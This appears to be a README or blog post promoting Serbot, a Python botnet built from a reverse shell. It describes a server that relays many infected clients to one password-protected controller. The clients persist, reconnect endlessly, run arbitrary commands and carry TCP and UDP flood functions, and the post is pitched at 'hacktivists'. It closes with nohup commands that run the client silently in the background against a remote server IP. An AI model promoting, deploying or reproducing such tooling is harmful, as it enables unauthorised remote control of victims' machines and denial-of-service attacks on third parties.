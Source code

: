 Hello everyone,

![alt tag](https://dotcppfile.files.wordpress.com/2014/11/rsz_1rsz_serbot.png)

Serbot is hot, keep reading Lol.

So, lets just get to the point, I’ve showed you [Awrs](http://dotcppfile.wordpress.com/2014/11/03/awrs-advanced-clientserver-windowslinux-python-reverse-shell/) and what it’s capable of, considered as one of the best Reverse Shells I’ve decided to Update Awrs and create Serbot and no, it’s not what you think Lol.

Serbot is an advanced version of Awrs where the Server can be managed by 1 Controller at a time.
######Example:
Server hosted on 15.48.158.15 and accepts up to 100 clients through port 1567, accepts 1 Controller at a time through port 2357 and the Controller’s functions are protected with a password: “IAmAPassword”
Client 1 hosted on 86.58.157.25 connected to 15.48.158.15:1567
Client 2 hosted on 78.459.17.35 connected to 15.48.158.15:1567
Controller running on my own computer connected to the Server on 15.48.158.15:2357 using the valid password “IAmAPassword”

In Serbot’s case, the Server also plays the role of a Bridge between the Clients and the Controller. This should sum things up. There’s a lot of benefits out of this now that’s for sure. A team of Researches or Hacktivists can now interact with all their clients using their Controllers, they don’t have to worry about portforwading, reverse shell’s stability and speed etc and they’re all sharing everything they have control on in one place.

In Serbot, everything was dealt with, your Server will never crash nor will your Clients no matter what, check the features list below for more info:

#####Server:
1. Linux/Windows Version.
1. Multi Handler. Can handle multiple connections all at once.
1. Bridge. Plays also the roll of a Bridge between the Clients and the Controller.
1. The Controller’s connection requires a plain text password, it’s not the best but it’s more than enough when it comes to keeping “l337 hax0rz b0t tak30v3r” away.
1. Accepts only 1 Controller at a time.
1. Kicks the Controller after 10 mins. This was added just in case someone forgot his Controller on which won’t allow other controllers to connect (since the Server only accepts 1 controller at a time).
1. Uses a very small amount of CPU and RAM when running.
1. Fast and Stable.

#####Client:
1. Linux/Windows Version.
1. TCP Flood.
1. UDP Flood.
1. You’ll never lose your shell. (Commands with No Output, Wrong Commands and Interactive Programs won’t kill your shell)
1. Never closes and is always trying to connect to the Server.
1. Can handle any command properly, such as the cd command.
1. Always gets back a response. (Command Output or Simple Client response)
1. Uses a very small amount of CPU and RAM when running.
1. Fast and Stable.

#####Controller:
1. Linux/Windows Version.
1. Handles all commands perfectly.
1. Handles any stupidity (KeyboardInterrupts, empty commands, etc) perfectly.
1. Uses a very small amount of CPU and RAM when running.
1. Easy user interface.
1. Fast and Stable.

This list isn’t enough but that’s all that I can think of right now. If you want to know how stable Serbot is then you have to try and code something similar to it Lol because then you’ll know that it handles everything you’re facing when it comes to bugs, errors, commands etc…

You simply have to remove the “#!/usr/bin/env python2″ at the top of every script to get this up and running on windows.

#####Extra:
If you’re trying to activate the Client threw ssl, shell or web shell then you have to run the Client.py in another process in the background or else your shell will dive into an endless loop and the best way to do that in Linux would be using nohup.

######Example:
nohup python client.py 15.48.158.15 1567 > /dev/null &

nohup python client.py 15.48.158.15 1567 > /dev/null 2>&1 &

Greetings to Team Prophetic, Chaoshackerz and all the followers of https://dotcppfile.wordpress.com/,
That’s all for today,
dotcppfile.
